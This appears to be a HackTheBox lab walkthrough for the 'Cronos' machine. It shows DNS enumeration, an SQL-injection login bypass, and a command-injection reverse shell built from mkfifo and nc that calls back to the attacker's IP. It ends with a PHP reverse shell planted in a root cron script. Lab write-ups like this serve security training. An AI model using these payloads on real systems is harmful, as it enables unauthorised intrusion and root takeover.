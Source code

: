 ## Initial Exploit - 
***
Lookup subdomains using DNS:  
> dig ANY @10.129.227.211 cronos.htb

![](/home/kali/Walkthroughs/HackTheBox/cronos/images/dig.png)

Add **cronos.htb** and **admin.cronos.htb** to the hosts file:  
![](/home/kali/Walkthroughs/HackTheBox/cronos/images/hosts.png)

Check for SQL injections on the login page at **admin.cronos.htb**:  
> wfuzz --hs "Password is invalid" -u http://admin.cronos.htb/ -d "username=FUZZ&password=password" -H "Cookie: PHPSESSID=iam4a4nr4grmbh46tuksaq83u5" -w /usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt

![](/home/kali/Walkthroughs/HackTheBox/cronos/images/wfuzz.png)

Set up a listener:  
> sudo nc -lvnp 80

Login using the credentials **"admin' or '1'='1'#" : password**. Use the ping utility and send the request to Burp. Modify the payload to add a reverse shell. Add **%26%26rm+-f+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.16.16+80+>/tmp/f** after the IP: 
![](/home/kali/Walkthroughs/HackTheBox/cronos/images/rce.png)

Send the request. The shell returns as www-data.

<div style="page-break-after: always;"></div>

## Privilege Escalation - 
***
Root runs the script at **/var/www/laravel/artisan** every minute. Modify the script to add a PHP reverse shell.
![](/home/kali/Walkthroughs/HackTheBox/cronos/images/crontab.png)
```
<?php shell_exec("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.16 80 >/tmp/f"); ?>
```
![](/home/kali/Walkthroughs/HackTheBox/cronos/images/priv.png)

Set up a listener. Wait for the cron job to run:  
> sudo nc -lvnp 80 

<div style="page-break-after: always;"></div>

## Proof - 
***
### User:

![](/home/kali/Walkthroughs/HackTheBox/cronos/images/user.png)

### Root:

![](/home/kali/Walkthroughs/HackTheBox/cronos/images/root.png)